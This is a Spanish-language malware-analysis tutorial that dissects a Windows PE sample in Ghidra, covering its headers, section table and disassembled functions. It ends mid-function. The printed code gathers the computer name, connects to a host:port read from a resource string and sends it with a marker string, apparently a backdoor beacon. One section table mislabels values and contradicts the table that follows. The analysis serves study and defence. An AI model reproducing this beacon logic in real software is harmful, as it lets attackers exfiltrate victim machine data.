

**Nota Previa:**
El código desemsamblado está en little endian, los bytes de un valor multibyte (por ejemplo, 2 o 4 bytes) se almacenan del menos significativo al más significativo.
```
004000E4: 4C 01  →  se interpreta como 0x014C
```
- 4C es el byte menos significativo
- 01 es el más significativo


## Contenido desensamblado de la muestra de malware: Cabecera

```
                             //
                             // Headers
                             // ram:00400000-ram:004003ff
                             //
             assume DF = 0x0  (Default)
                             IMAGE_DOS_HEADER_00400000      XREF[1]:     00400114(*)
        00400000 4d 5a 90        IMAGE_DO
                 00 03 00
                 00 00 04
           00400000 4d 5a           char[2]   "MZ"        e_magic       XREF[1]:     00400114(*)
```
El encabezado DOS (DOS header) de un archivo PE (Portable Executable) de Windows, que es la estructura inicial de cualquier ejecutable .exe o .dll. Esta estructura se llama **IMAGE_DOS_HEADER**, y es la primera parte de un ejecutable en Windows. 

El **IMAGE_DOS_HEADER** es necesario para que Windows lo reconozca como ejecutable.

-------
### 📌 00400000 → Campo e_magic

```
00400000 4D 5A           // "MZ"
```
Esto es el campo e_magic, que contiene "MZ", las iniciales de Mark Zbikowski, uno de los creadores del formato. Es una firma mágica que le dice al sistema: “esto es un archivo ejecutable”.

-------

### 📌 0040003c → Donde comienza la estructura PE
```
0040003c e0 00 00 00     ddw       E0h  e_lfanew      File address of ne
```
e_lfanew apunta a la offset donde comienza la estructura PE (Portable Executable) real. En este caso, es 0xE0, o sea, el encabezado PE está en 00400000 + 0xE0 = 004000E0.

-------

### 📌 00400040 → Programa DOS "dummy"
```
00400040 0e 1f ba 0e 00  db[64]   e_program     Actual DOS program
         b4 09 cd 21 b8
         01 4c cd 21 54
```
Este bloque representa el programa DOS "dummy" que se ejecuta si alguien intenta lanzar este .exe en MS-DOS. Es una mini rutina en ensamblador x86 que imprime: "This program cannot be run in DOS mode."

Esto no tiene relevancia en reversing moderno, pero es necesario para cumplir con el formato PE.

-------


### 📌 004000E0 → Inicio del encabezado PE
```
004000e0 50 45 00        IMAGE_NT      = 000022e0
         00 4c 01                      = 21D4h
         04 00 09
```

004000E0 50 45 00 00

✅ Esto es clave:
- 50 45 = "PE"
- 00 00 = nulls para completar el identificador de 4 bytes: "PE\0\0"
- Marca el inicio del IMAGE_NT_HEADERS.

-------
### 📌 PE\0\0  → Firma mágica que marca el inicio del formato PE.
La firma mágica que marca el inicio del formato PE está formada por:

| Byte |	Valor hexadecimal |	Significado |
| -- | -- | -- |
| 'P' | 	0x50 | 	Letra "P" |
| 'E' | 	0x45 | 	Letra "E" |
| '\0' | 	0x00 | 	Byte nulo (null) |
| '\0' | 	0x00 | 	Otro byte nulo |

**¿Por qué tiene dos ceros (\0\0)?**
Porque la especificación PE exige que la firma tenga cuatro bytes en total:
- Dos letras: P y E.
- Dos bytes nulos: \0\0

Esto completa el campo de firma de 4 bytes que el sistema operativo necesita para validar que se trata de un archivo PE.

-------

### 📌 004000E4+ → Cabecera de archivo (IMAGE_FILE_HEADER)
Encabezado PE (IMAGE_NT_HEADERS) y su contenido:
```
004000e0 50 45 00        IMAGE_NT        = 000022e0
         00 4c 01                        = 21D4h
         04 00 09
```


```
004000E4 4C 01        // Máquina: 0x014C → x86
004000E6 04 00        // Número de secciones: 4
004000E8 09 ...       // Más campos (timestamp, etc.)
```
- Tipo de arquitectura (x86 = 0x14C, x64 sería 0x8664)
- Número de secciones (.text, .data, etc.)
- Tamaño del optional header
- Características del archivo

```
#define IMAGE_FILE_MACHINE_I386  0x014c  // x86
```

Valores Típicos para este campo:
| Valor	| Arquitectura |
|--|--|
| 0x014c	| 	x86 (32 bits) |
| 0x8664	| 	x86-64 (64 bits) |
| 0x01c0	| 	ARM |
| 0x0200	| 	IA64 (Itanium) |

--------

### 📌 004001D8, 00400200, 00400228, 00400250 → Secciones del binario
```
004001d8 2e 74 65        IMAGE_SE   .text    // Código ejecutable
         78 74 00
         00 00 a6
00400200 2e 72 64        IMAGE_SE    .rdata  // Datos de solo lectura (strings, imports, etc.)
         61 74 61
         00 00 7e
00400228 2e 64 61        IMAGE_SE    .data   // Datos de lectura/escritura (variables globales)
         74 61 00
         00 00 28
00400250 2e 72 73        IMAGE_SE    .rsrc   // Recursos (íconos, menús, etc.)
         72 63 00
         00 00 7c
```

Cada sección tiene:
- Nombre (".text", ".rdata", etc.)
- Dirección virtual (RVA)
- Tamaño
- Offset físico en el archivo

-------
### 📌 Sección .text →
```
004001d8 2e 74 65        IMAGE_SE   .text    // Código ejecutable
         78 74 00
         00 00 a6
```
**La dirección 004001D8 no es el inicio real del código .text, sino la ubicación en el archivo donde está descrita la entrada de la sección .text** en la tabla de secciones del encabezado PE. Para ver el contenido de esta sección podemos usar Ghidra para ir a esta dirección y ver su contenido.

```
004001D8 2e 74 65 78 74 00 00 00   → ".text\0\0\0"
```

### 📌 ¿Dónde está .text? →
**Para saber dónde saltar para ver .text, necesitamos saber:**
1. Localizar el e_lfanew: 0040003c e0 00 00 00 → e_lfanew = 0xE0. Esto indica que el encabezado PE (que empieza con "PE\0\0") se encuentra en el offset 0xE0 del archivo.
2. Saltamos al encabezado PE: 004000E0 50 45 00 00 → "PE\0\0".
3. Y justo después de este encabezado, vienen:
  - El IMAGE_FILE_HEADER (20 bytes).
  - El IMAGE_OPTIONAL_HEADER (habitualmente 0xE0 bytes).
  - Luego, la tabla de secciones, que empieza justo después del optional header.
4. Leemos la entrada .text en la tabla de secciones: 004001d8 2e 74 65 78 74 00 00 00 → ".text". Esto es claramente la primera entrada de la tabla de secciones (40 bytes de tamaño cada una).


**Cada entrada de sección ocupa 40 bytes, con esta distribución:**
| Offset |	Campo |		Tamaño |		Comentario |
| -- | -- | -- | --  |
| 0x00 |	Name | 8B	|	".text" |
| 0x08 |	VirtualSize |	4B	|	Tamaño real en memoria |
| 0x0C |	VirtualAddress | 4B	|	Dirección virtual en memoria |
| 0x10 |	SizeOfRawData |	4B |	Tamaño en el archivo |
| 0x14 |	PointerToRawData | 4B |	Offset en el archivo |


**Estructura .text:**  
Para ver el contenido de esta estructura, abrimos el malware con Ghidra.


| Dirección | Bytes| Campo |
| ----------- | ---------------------------- |  ----------------------------- | 
| 004001D8 | 2e 74 65 78 74 00 00 00 | Name (".text") | 
| 004001E0 | a6 00 00 00 | VirtualSize (0x000000A6) | 
| 004001E4 | 00 10 00 00 | **VirtualAddress (0x00001000)** | 
| 004001E8 | 00 10 00 00 | SizeOfRawData (0x00000200) | 
| 004001EC | 00 04 00 00 | **PointerToRawData (0x000000E0)** | 
| 004001F0 | 00 00 00 00 | PointerToRelocations | 
| 004001F4 | 00 00 00 00 | PointerToLinenumbers | 
| 004001F8 | 00 00 | NumberOfRelocations | 
| 004001FA | 00 00 | NumberOfLinenumbers | 
| 004001FC | 20 00 00 60 | Characteristics (posiblemente ejecutable) | 


Los campos importantes en una entrada de sección (IMAGE_SECTION_HEADER) son:
| Offset relativo |	Campo |	Tamaño |	Valor leído (hex) |	Significado | Comentario |
| -- | -- | -- | -- | -- | -- |
| 0x00 | 	Name (.text) | 	8B | 2e 74 65 78 74 00 00 00 | ".text" | .text\0\0\0 |
| 0x08 | 	VirtualSize | 	4B | a6 00 00 00 | 0x000000A6 |  0xA6 |
| 0x0C | 	VirtualAddress | 	4B | 00 10 00 00 | 0x00001000 |  0x1000 |
| 0x10 | 	SizeOfRawData | 	4B | 00 10 00 00  | 0x00001000 | 0x1000 |
| 0x14 | 	PointerToRawData | 	4B | 00 04 00 00  | 0x00000400 | 0x400 |


5. VirtualAddrees: Se encuentra en 004001E4. En Ghidra buscamos esta dirección y vemos su contenido: 0X004001E4 → **00 10 00 00**.
6. PointerToRawData: **0x00000400**	Offset en el archivo (donde comienza .text). 
7. SizeOfRawData: 0x00001000	Tamaño de la sección en el archivo (4 KB).
8. VirtualSize	0x000000A6	Tamaño real del código.


✅ **¿Dónde está el código ejecutable?**  
📁 En el archivo: Offset físico: 0x00000400. Ahí comienzan los bytes de la sección .text en el disco. Para verlo usamos comando xxd.  


💻 En memoria (cuando se carga en ejecución): Dirección virtual: 0x00401000. (asumiendo ImageBase = 0x00400000, que es estándar para PE de 32 bits). Para verlo usamos ghidra  →   


-------
🎯 Resumen funcional
|Campo |	Dirección |	Descripción |
|--|--|--|
| e_magic |	0x00400000 | Firma "MZ" → indica que es ejecutable DOS/PE |
| e_lfanew |	0x0040003C |	Offset del encabezado PE (donde empieza lo importante para Windows) |
| e_program | 0x00400040 |	Código DOS que se ejecuta si se intenta abrir en MS-DOS |
| Program | 00400040| 	Programa DOS (relleno) |
| Firma PE  | 004000E0	Firma PE (PE\0\0) → comienza el PE header |
| .text | 004001D8 |	.text section (código ejecutable) |
| .rdata | 00400200 |	.rdata (strings, tabla de importación) |
| .data | 00400228 |	.data (variables globales) |
| .rsrc | 00400250 |	.rsrc (recursos como íconos, GUI, etc) |


## Contenido desensamblado de la muestra de malware: .text → Función FUN_00401240

```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined4 __stdcall FUN_00401240(HINSTANCE param_1)
                               assume FS_OFFSET = 0xffdff000
             undefined4        EAX:4          <RETURN>
             HINSTANCE         Stack[0x4]:4   param_1                                 XREF[1]:     00401240(R)
                             FUN_00401240                                    XREF[1]:     entry:00401e09(c)
        00401240 8b 44 24 04     MOV        EAX,dword ptr [ESP + param_1]
        00401244 68 ff 00        PUSH       0xff                                             int cchBufferMax for LoadStringA
                 00 00
        00401249 68 a0 30        PUSH       _Str_004030a0                                    LPSTR lpBuffer for LoadStringA
                 40 00
        0040124e 6a 01           PUSH       0x1                                              UINT uID for LoadStringA
        00401250 50              PUSH       EAX                                              HINSTANCE hInstance for LoadStri
        00401251 ff 15 e0        CALL       dword ptr [->USER32.DLL::LoadStringA]            = 000024de
                 20 40 00
        00401257 68 a0 30        PUSH       _Str_004030a0                                    = 00000000
                 40 00
        0040125c e8 5f 00        CALL       FUN_004012c0                                     undefined FUN_004012c0(void)
                 00 00
        00401261 83 c4 04        ADD        ESP,0x4
        00401264 33 c0           XOR        EAX,EAX
        00401266 c2 10 00        RET        0x10
        00401269 90 90 90        align      align(7)
                 90 90 90 90
        00401270 53              ??         53h    S
        00401271 55              ??         55h    U
        00401272 8b              ??         8Bh
        00401273 6c              ??         6Ch    l
        00401274 24              ??         24h    $
        00401275 14              ??         14h
        00401276 56              ??         56h    V
        00401277 85              ??         85h
        00401278 ed              ??         EDh
        00401279 57              ??         57h    W
        0040127a 8b              ??         8Bh
        0040127b f5              ??         F5h
        0040127c 7e              ??         7Eh    ~
        0040127d 20              ??         20h
        0040127e 8b              ??         8Bh
        0040127f 5c              ??         5Ch    \
        00401280 24              ??         24h    $
        00401281 14              ??         14h
        00401282 8b              ??         8Bh
        00401283 7c              ??         7Ch    |
        00401284 24              ??         24h    $
        00401285 18              ??         18h
        00401286 6a              ??         6Ah    j
        00401287 00              ??         00h
        00401288 56              ??         56h    V
        00401289 57              ??         57h    W
        0040128a 53              ??         53h    S
        0040128b e8              ??         E8h
        0040128c dc              ??         DCh
        0040128d 0b              ??         0Bh
        0040128e 00              ??         00h
        0040128f 00              ??         00h
        00401290 85              ??         85h
        00401291 c0              ??         C0h
        00401292 7c              ??         7Ch    |
        00401293 11              ??         11h
        00401294 74              ??         74h    t
        00401295 17              ??         17h
        00401296 2b              ??         2Bh    +
        00401297 f0              ??         F0h
        00401298 03              ??         03h
        00401299 f8              ??         F8h
        0040129a 85              ??         85h
        0040129b f6              ??         F6h
        0040129c 7f              ??         7Fh    
        0040129d e8              ??         E8h
        0040129e 5f              ??         5Fh    _
        0040129f 8b              ??         8Bh
        004012a0 c5              ??         C5h
        004012a1 5e              ??         5Eh    ^
        004012a2 5d              ??         5Dh    ]
        004012a3 5b              ??         5Bh    [
        004012a4 c3              ??         C3h
        004012a5 5f              ??         5Fh    _
        004012a6 5e              ??         5Eh    ^
        004012a7 5d              ??         5Dh    ]
        004012a8 83              ??         83h
        004012a9 c8              ??         C8h
        004012aa ff              ??         FFh
        004012ab 5b              ??         5Bh    [
        004012ac c3              ??         C3h
        004012ad 8b              ??         8Bh
        004012ae c5              ??         C5h
        004012af 5f              ??         5Fh    _
        004012b0 2b              ??         2Bh    +
        004012b1 c6              ??         C6h
        004012b2 5e              ??         5Eh    ^
        004012b3 5d              ??         5Dh    ]
        004012b4 5b              ??         5Bh    [
        004012b5 c3              ??         C3h
        004012b6 90              ??         90h
        004012b7 90              ??         90h
        004012b8 90              ??         90h
        004012b9 90              ??         90h
        004012ba 90              ??         90h
        004012bb 90              ??         90h
        004012bc 90              ??         90h
        004012bd 90              ??         90h
        004012be 90              ??         90h
        004012bf 90              ??         90h
```
👉 Esto es una llamada a LoadStringA(), una función de la API de Windows:
```
int LoadStringA(
  HINSTANCE hInstance,
  UINT uID,
  LPSTR lpBuffer,
  int cchBufferMax
);
```
Intenta cargar una cadena (string) del segmento de recursos del ejecutable, usando el ID 1, y la escribe en el buffer 0x4030a0.


## Contenido desensamblado de la muestra de malware: .text → Función FUN_004012c0
```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined __stdcall FUN_004012c0(void)
                               assume FS_OFFSET = 0xffdff000
             undefined         <UNASSIGNED>   <RETURN>
                             FUN_004012c0                                    XREF[1]:     FUN_00401240:0040125c(c)
        004012c0 56              PUSH       ESI
        004012c1 8b 35 08        MOV        ESI,dword ptr [->KERNEL32.DLL::CreateEventA]     = 00002304
                 20 40 00
        004012c7 57              PUSH       EDI
        004012c8 6a 00           PUSH       0x0                                              LPCSTR lpName for CreateEventA
        004012ca 6a 00           PUSH       0x0                                              BOOL bInitialState for CreateEve
        004012cc 6a 01           PUSH       0x1                                              BOOL bManualReset for CreateEventA
        004012ce 6a 00           PUSH       0x0                                              LPSECURITY_ATTRIBUTES lpEventAtt
        004012d0 ff d6           CALL       ESI=>KERNEL32.DLL::CreateEventA
        004012d2 6a 00           PUSH       0x0                                              LPCSTR lpName for CreateEventA
        004012d4 6a 00           PUSH       0x0                                              BOOL bInitialState for CreateEve
        004012d6 6a 01           PUSH       0x1                                              BOOL bManualReset for CreateEventA
        004012d8 6a 00           PUSH       0x0                                              LPSECURITY_ATTRIBUTES lpEventAtt
        004012da a3 d8 30        MOV        [DAT_004030d8],EAX
                 40 00
        004012df ff d6           CALL       ESI=>KERNEL32.DLL::CreateEventA
        004012e1 a3 d4 30        MOV        [DAT_004030d4],EAX
                 40 00
        004012e6 b9 4b 00        MOV        ECX,0x4b
                 00 00
        004012eb 33 c0           XOR        EAX,EAX
        004012ed bf e0 30        MOV        EDI,DAT_004030e0
                 40 00
        004012f2 f3 ab           STOSD.REP  ES:EDI=>DAT_004030e0
        004012f4 8b 44 24 0c     MOV        EAX,dword ptr [ESP + Stack[0x4]]
        004012f8 50              PUSH       EAX
        004012f9 e8 22 00        CALL       FUN_00401320                                     undefined FUN_00401320(void)
                 00 00
        004012fe 8b 0d d8        MOV        ECX,dword ptr [DAT_004030d8]
                 30 40 00
        00401304 83 c4 04        ADD        ESP,0x4
        00401307 6a 00           PUSH       0x0                                              DWORD dwMilliseconds for WaitFor
        00401309 51              PUSH       ECX                                              HANDLE hHandle for WaitForSingle
        0040130a ff 15 04        CALL       dword ptr [->KERNEL32.DLL::WaitForSingleObject]  = 000022ee
                 20 40 00
        00401310 8b 15 d8        MOV        EDX,dword ptr [DAT_004030d8]
                 30 40 00
        00401316 52              PUSH       EDX                                              HANDLE hObject for CloseHandle
        00401317 ff 15 00        CALL       dword ptr [->KERNEL32.DLL::CloseHandle]          = 000022e0
                 20 40 00
        0040131d 5f              POP        EDI
        0040131e 5e              POP        ESI
        0040131f c3              RET
  ```

La función FUN_004012C0:
- Crea dos eventos con CreateEventA.
- Guarda los handles de esos eventos en variables globales (DAT_004030D8 y DAT_004030D4).
- Limpia una zona de memoria global (DAT_004030E0) con ceros (STOSD).
- Llama a otra función (FUN_00401320), pasándole un argumento.
- Espera a que uno de los eventos se dispare (WaitForSingleObject).
- Cierra el handle del evento con CloseHandle.
- Termina limpiamente.

Esta función parece ser parte de un sistema de inicialización o espera controlada, quizás incluso un sistema de ofuscación o sincronización antes de ejecutar código malicioso.

```
PUSH ESI
MOV  ESI, [KERNEL32::CreateEventA]
PUSH EDI
```
Guarda ESI y EDI en la pila.  
Carga la dirección de CreateEventA en ESI para usarla varias veces.  


```
MOV ECX, 0x4B
XOR EAX, EAX
MOV EDI, DAT_004030E0
REP STOSD
```
Limpiar 0x4B DWORDs (75 × 4 = 300 bytes) en DAT_004030E0. Limpia esa zona de memoria (es probable que sea un buffer de trabajo).

```
MOV EAX, [ESP + 0xC]  ; Recupera argumento de pila
PUSH EAX
CALL FUN_00401320
```
Llamada a FUN_00401320.


## Contenido desensamblado de la muestra de malware: .text → Función FUN_00401320
```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined __stdcall FUN_00401320(void)
                               assume FS_OFFSET = 0xffdff000
             undefined         <UNASSIGNED>   <RETURN>
             undefined1        Stack[-0x294   local_294                               XREF[2]:     004013ad(*),
                                                                                                   004013ba(*)
             undefined1        Stack[-0x3a8   local_3a8                               XREF[1]:     0040135a(*)
             undefined1        Stack[-0x3bb   local_3bb                               XREF[2]:     00401391(*),
                                                                                                   004013c3(*)
             undefined4        Stack[-0x3dc   local_3dc                               XREF[2]:     004013b4(*),
                                                                                                   004013c7(W)
                             FUN_00401320                                    XREF[1]:     FUN_004012c0:004012f9(c)
        00401320 81 ec dc        SUB        ESP,0x3dc
                 03 00 00
        00401326 53              PUSH       EBX
        00401327 55              PUSH       EBP
        00401328 56              PUSH       ESI
        00401329 57              PUSH       EDI
        0040132a 6a 3a           PUSH       0x3a                                             int _Val for strchr
        0040132c 68 a0 30        PUSH       _Str_004030a0                                    char * _Str for strchr
                 40 00
        00401331 e8 92 09        CALL       MSVCRT.DLL::strchr                               char * strchr(char * _Str, int _
                 00 00
        00401336 8b d0           MOV        EDX,EAX
        00401338 33 db           XOR        EBX,EBX
        0040133a 81 ea a0        SUB        EDX,_Str_004030a0                                = 00000000
                 30 40 00
        00401340 83 c4 08        ADD        ESP,0x8
        00401343 3b d3           CMP        EDX,EBX
        00401345 0f 8e db        JLE        LAB_00401426
                 00 00 00
        0040134b 33 c0           XOR        EAX,EAX
        0040134d 3b d3           CMP        EDX,EBX
        0040134f 7e 19           JLE        LAB_0040136a
        00401351 8b ca           MOV        ECX,EDX
        00401353 be a0 30        MOV        ESI,_Str_004030a0                                = 00000000
                 40 00
        00401358 8b c1           MOV        EAX,ECX
        0040135a 8d 7c 24 44     LEA        EDI=>local_3a8,[ESP + 0x44]
        0040135e c1 e9 02        SHR        ECX,0x2
        00401361 f3 a5           MOVSD.REP  ES:EDI,ESI=>_Str_004030a0                        = 00000000
        00401363 8b c8           MOV        ECX,EAX
        00401365 83 e1 03        AND        ECX,0x3
        00401368 f3 a4           MOVSB.REP  ES:EDI,ESI=>_Str_004030a0                        = 00000000
                             LAB_0040136a                                    XREF[1]:     0040134f(j)
        0040136a 88 5c 04 44     MOV        byte ptr [ESP + EAX*0x1 + 0x44],BL
        0040136e bf a0 30        MOV        EDI,_Str_004030a0                                = 00000000
                 40 00
        00401373 83 c9 ff        OR         ECX,0xffffffff
        00401376 33 c0           XOR        EAX,EAX
        00401378 33 f6           XOR        ESI,ESI
        0040137a f2 ae           SCASB.RE   ES:EDI
        0040137c f7 d1           NOT        ECX
        0040137e 49              DEC        ECX
        0040137f 2b ca           SUB        ECX,EDX
        00401381 85 c9           TEST       ECX,ECX
        00401383 7e 21           JLE        LAB_004013a6
                             LAB_00401385                                    XREF[1]:     004013a4(j)
        00401385 8a 8c 32        MOV        CL,byte ptr [EDX + ESI*0x1 + _Str_004030a0+1]
                 a1 30 40 00
        0040138c bf a0 30        MOV        EDI,_Str_004030a0                                = 00000000
                 40 00
        00401391 88 4c 34 30     MOV        byte ptr [ESP + ESI*0x1 + local_3bb],CL
        00401395 83 c9 ff        OR         ECX,0xffffffff
        00401398 33 c0           XOR        EAX,EAX
        0040139a 46              INC        ESI
        0040139b f2 ae           SCASB.RE   ES:EDI
        0040139d f7 d1           NOT        ECX
        0040139f 49              DEC        ECX
        004013a0 2b ca           SUB        ECX,EDX
        004013a2 3b f1           CMP        ESI,ECX
        004013a4 7c df           JL         LAB_00401385
                             LAB_004013a6                                    XREF[1]:     00401383(j)
        004013a6 b9 41 00        MOV        ECX,0x41
                 00 00
        004013ab 33 c0           XOR        EAX,EAX
        004013ad 8d bc 24        LEA        EDI=>local_294,[ESP + 0x158]
                 58 01 00 00
        004013b4 8d 54 24 10     LEA        EDX=>local_3dc,[ESP + 0x10]
        004013b8 f3 ab           STOSD.REP  ES:EDI
        004013ba 8d 84 24        LEA        EAX=>local_294,[ESP + 0x158]
                 58 01 00 00
        004013c1 52              PUSH       EDX                                              LPDWORD nSize for GetComputerNameA
        004013c2 50              PUSH       EAX                                              LPSTR lpBuffer for GetComputerNa
        004013c3 88 5c 34 38     MOV        byte ptr [ESP + ESI*0x1 + local_3bb],BL
        004013c7 c7 44 24        MOV        dword ptr [ESP + local_3dc],0x104
                 18 04 01
                 00 00
        004013cf ff 15 14        CALL       dword ptr [->KERNEL32.DLL::GetComputerNameA]     = 0000232a   ***********************************
                 20 40 00
        004013d5 8d bc 24        LEA        EDI,[ESP + 0x158]
                 58 01 00 00
        004013dc 83 c9 ff        OR         ECX,0xffffffff
        004013df 33 c0           XOR        EAX,EAX
        004013e1 f2 ae           SCASB.RE   ES:EDI
        004013e3 f7 d1           NOT        ECX
        004013e5 49              DEC        ECX
        004013e6 88 9c 0c        MOV        byte ptr [ESP + ECX*0x1 + 0x158],BL
                 58 01 00 00
        004013ed 8d 8c 24        LEA        ECX,[ESP + 0x25c]
                 5c 02 00 00
        004013f4 51              PUSH       ECX
        004013f5 68 01 01        PUSH       0x101
                 00 00
        004013fa e8 97 0a        CALL       WS2_32.DLL::Ordinal_115                          undefined Ordinal_115()
                 00 00
        004013ff 53              PUSH       EBX
        00401400 6a 01           PUSH       0x1
        00401402 6a 02           PUSH       0x2
        00401404 e8 87 0a        CALL       WS2_32.DLL::Ordinal_23                           undefined Ordinal_23()
                 00 00
        00401409 8b e8           MOV        EBP,EAX
        0040140b 83 fd ff        CMP        EBP,-0x1
        0040140e 75 21           JNZ        LAB_00401431
        00401410 50              PUSH       EAX
        00401411 e8 74 0a        CALL       WS2_32.DLL::Ordinal_3                            undefined Ordinal_3()
                 00 00
        00401416 68 c0 27        PUSH       0x927c0                                          DWORD dwMilliseconds for Sleep
                 09 00
                             LAB_0040141b                                    XREF[1]:     0040147b(j)
        0040141b ff 15 10        CALL       dword ptr [->KERNEL32.DLL::Sleep]                = 00002322
                 20 40 00
                             LAB_00401421                                    XREF[3]:     00401542(j), 0040156c(j),
                                                                                          00401574(j)
        00401421 e8 2a 07        CALL       FUN_00401b50                                     undefined4 FUN_00401b50(void)
                 00 00
                             LAB_00401426                                    XREF[1]:     00401345(j)
        00401426 5f              POP        EDI
        00401427 5e              POP        ESI
        00401428 5d              POP        EBP
        00401429 5b              POP        EBX
        0040142a 81 c4 dc        ADD        ESP,0x3dc
                 03 00 00
        00401430 c3              RET
                             LAB_00401431                                    XREF[1]:     0040140e(j)
        00401431 8d 54 24 30     LEA        EDX,[ESP + 0x30]
        00401435 66 c7 44        MOV        word ptr [ESP + 0x14],0x2
                 24 14 02 00
        0040143c 52              PUSH       EDX                                              char * _Str for atol
        0040143d e8 80 08        CALL       MSVCRT.DLL::atol                                 long atol(char * _Str)
                 00 00
        00401442 83 c4 04        ADD        ESP,0x4
        00401445 50              PUSH       EAX
        00401446 e8 39 0a        CALL       WS2_32.DLL::Ordinal_9                            undefined Ordinal_9()
                 00 00
        0040144b 66 89 44        MOV        word ptr [ESP + 0x16],AX
                 24 16
        00401450 8d 44 24 44     LEA        EAX,[ESP + 0x44]
        00401454 50              PUSH       EAX
        00401455 e8 24 0a        CALL       WS2_32.DLL::Ordinal_11                           undefined Ordinal_11()
                 00 00
        0040145a 8d 4c 24 14     LEA        ECX,[ESP + 0x14]
        0040145e 6a 10           PUSH       0x10
        00401460 51              PUSH       ECX
        00401461 55              PUSH       EBP
        00401462 89 44 24 24     MOV        dword ptr [ESP + 0x24],EAX
        00401466 e8 0d 0a        CALL       WS2_32.DLL::Ordinal_4                            undefined Ordinal_4()
                 00 00
        0040146b 83 f8 ff        CMP        EAX,-0x1
        0040146e 75 0d           JNZ        LAB_0040147d
        00401470 55              PUSH       EBP
        00401471 e8 14 0a        CALL       WS2_32.DLL::Ordinal_3                            undefined Ordinal_3()
                 00 00
        00401476 68 e8 03        PUSH       0x3e8
                 00 00
        0040147b eb 9e           JMP        LAB_0040141b
                             LAB_0040147d                                    XREF[1]:     0040146e(j)
        0040147d b9 3f 00        MOV        ECX,0x3f
                 00 00
        00401482 33 c0           XOR        EAX,EAX
        00401484 8d 7c 24 58     LEA        EDI,[ESP + 0x58]
        00401488 8d 54 24 58     LEA        EDX,[ESP + 0x58]
        0040148c f3 ab           STOSD.REP  ES:EDI
        0040148e 66 ab           STOSW      ES:EDI
        00401490 aa              STOSB      ES:EDI
        00401491 bf 60 30        MOV        EDI,s_*(SY)#_00403060                            = "*(SY)# "
                 40 00
        00401496 83 c9 ff        OR         ECX,0xffffffff
        00401499 33 c0           XOR        EAX,EAX
        0040149b 53              PUSH       EBX
        0040149c f2 ae           SCASB.RE   ES:EDI=>s_*(SY)#_00403060                        = "*(SY)# "
        0040149e f7 d1           NOT        ECX
        004014a0 2b f9           SUB        EDI,ECX
        004014a2 8b c1           MOV        EAX,ECX
        004014a4 8b f7           MOV        ESI,EDI
        004014a6 8b fa           MOV        EDI,EDX
        004014a8 8d 54 24 5c     LEA        EDX,[ESP + 0x5c]
        004014ac c1 e9 02        SHR        ECX,0x2
        004014af f3 a5           MOVSD.REP  ES:EDI,ESI=>s_*(SY)#_00403060                    = "*(SY)# "
        004014b1 8b c8           MOV        ECX,EAX
        004014b3 33 c0           XOR        EAX,EAX
        004014b5 83 e1 03        AND        ECX,0x3
        004014b8 f3 a4           MOVSB.REP  ES:EDI,ESI=>s_*(SY)#_00403060                    = "*(SY)# "
        004014ba 8d bc 24        LEA        EDI,[ESP + 0x15c]
                 5c 01 00 00
        004014c1 83 c9 ff        OR         ECX,0xffffffff
        004014c4 f2 ae           SCASB.RE   ES:EDI
        004014c6 f7 d1           NOT        ECX
        004014c8 2b f9           SUB        EDI,ECX
        004014ca 8b f7           MOV        ESI,EDI
        004014cc 8b fa           MOV        EDI,EDX
        004014ce 8b d1           MOV        EDX,ECX
        004014d0 83 c9 ff        OR         ECX,0xffffffff
        004014d3 f2 ae           SCASB.RE   ES:EDI
        004014d5 8b ca           MOV        ECX,EDX
        004014d7 4f              DEC        EDI
        004014d8 c1 e9 02        SHR        ECX,0x2
        004014db f3 a5           MOVSD.REP  ES:EDI,ESI
        004014dd 8b ca           MOV        ECX,EDX
        004014df 83 e1 03        AND        ECX,0x3
        004014e2 f3 a4           MOVSB.REP  ES:EDI,ESI
        004014e4 8d 7c 24 5c     LEA        EDI,[ESP + 0x5c]
        004014e8 83 c9 ff        OR         ECX,0xffffffff
        004014eb f2 ae           SCASB.RE   ES:EDI
        004014ed f7 d1           NOT        ECX
        004014ef 49              DEC        ECX
        004014f0 8d 7c 24 5c     LEA        EDI,[ESP + 0x5c]
        004014f4 88 5c 0c 5c     MOV        byte ptr [ESP + ECX*0x1 + 0x5c],BL
        004014f8 83 c9 ff        OR         ECX,0xffffffff
        004014fb f2 ae           SCASB.RE   ES:EDI
        004014fd f7 d1           NOT        ECX
        004014ff 49              DEC        ECX
        00401500 8d 44 24 5c     LEA        EAX,[ESP + 0x5c]
        00401504 51              PUSH       ECX
        00401505 50              PUSH       EAX
        00401506 55              PUSH       EBP
        00401507 e8 60 09        CALL       WS2_32.DLL::Ordinal_19                           undefined Ordinal_19()
                 00 00
        0040150c 8b f0           MOV        ESI,EAX
        0040150e 8d 7c 24 58     LEA        EDI,[ESP + 0x58]
        00401512 83 c9 ff        OR         ECX,0xffffffff
        00401515 33 c0           XOR        EAX,EAX
        00401517 f2 ae           SCASB.RE   ES:EDI
        00401519 f7 d1           NOT        ECX
        0040151b 49              DEC        ECX
        0040151c 51              PUSH       ECX
        0040151d 8d 4c 24 28     LEA        ECX,[ESP + 0x28]
        00401521 68 54 30        PUSH       s_send_=_%d_00403054                             char * _Format for sprintf
                 40 00
        00401526 51              PUSH       ECX                                              char * _Dest for sprintf
        00401527 e8 90 07        CALL       MSVCRT.DLL::sprintf                              int sprintf(char * _Dest, char *
                 00 00
        0040152c 56              PUSH       ESI
        0040152d 8d 54 24 34     LEA        EDX,[ESP + 0x34]
        00401531 68 54 30        PUSH       s_send_=_%d_00403054                             char * _Format for sprintf
                 40 00
        00401536 52              PUSH       EDX                                              char * _Dest for sprintf
        00401537 e8 80 07        CALL       MSVCRT.DLL::sprintf                              int sprintf(char * _Dest, char *
                 00 00
        0040153c 83 c4 18        ADD        ESP,0x18
        0040153f 83 fe ff        CMP        ESI,-0x1
        00401542 0f 84 d9        JZ         LAB_00401421
                 fe ff ff
